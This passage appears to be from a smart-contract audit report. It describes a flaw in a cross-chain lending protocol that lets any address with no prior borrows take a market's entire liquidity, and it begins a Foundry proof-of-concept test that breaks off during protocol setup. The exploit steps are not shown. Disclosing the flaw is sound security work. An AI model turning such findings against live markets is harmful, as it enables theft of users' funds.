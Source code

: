 Any address with zero prior borrows can steal up to the entire on-chain liquidity of a given market, as long as that market has positive cash.

### PoC

Copy paste this test into TestBorrowing.t.sol:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {Test} from "forge-std/Test.sol";
import {Deploy} from "../script/Deploy.s.sol";
import {HelperConfig} from "../script/HelperConfig.s.sol";
import {CrossChainRouterMock} from "./mocks/CrossChainRouterMock.sol";
import {CoreRouter} from "../src/LayerZero/CoreRouter.sol";
import {LendStorage} from "../src/LayerZero/LendStorage.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/ERC20Mock.sol";
import {Lendtroller} from "../src/Lendtroller.sol";
import {InterestRateModel} from "../src/InterestRateModel.sol";
import {SimplePriceOracle} from "../src/SimplePriceOracle.sol";
import {LTokenInterface} from "../src/LTokenInterfaces.sol";
import {LToken} from "../src/LToken.sol";
import "@layerzerolabs/lz-evm-oapp-v2/test/TestHelper.sol";

contract TestBorrowing is Test {
    HelperConfig public helperConfig;
    address public layerZeroEndpoint;
    address[] public supportedTokens;
    bool public isTestnet;
    address public deployer;

    CrossChainRouterMock public router;
    LendStorage public lendStorage;
    CoreRouter public coreRouter;
    Lendtroller public lendtroller;
    InterestRateModel public interestRateModel;
    SimplePriceOracle public priceOracle;

    TestHelper public testHelper;

    address[] public lTokens;

    // Events to test
    event BorrowSuccess(address indexed borrower, address indexed lToken, uint256 accountBorrow);

    function setUp() public {
        deployer = makeAddr("deployer");

        // Deploy the entire protocol
        Deploy deploy = new Deploy();
        (
            address priceOracleAddress,
            address lendtrollerAddress,
            address interestRateModelAddress,
            address[] memory lTokenAddresses,
            address payable routerAddress,
            address payable coreRouterAddress,
            address lendStorageAddress,
            address _layerZeroEndpoint,
            address[] memory _supportedTokens
        ) = deploy.run();

        // Store the values in contract state variables
```
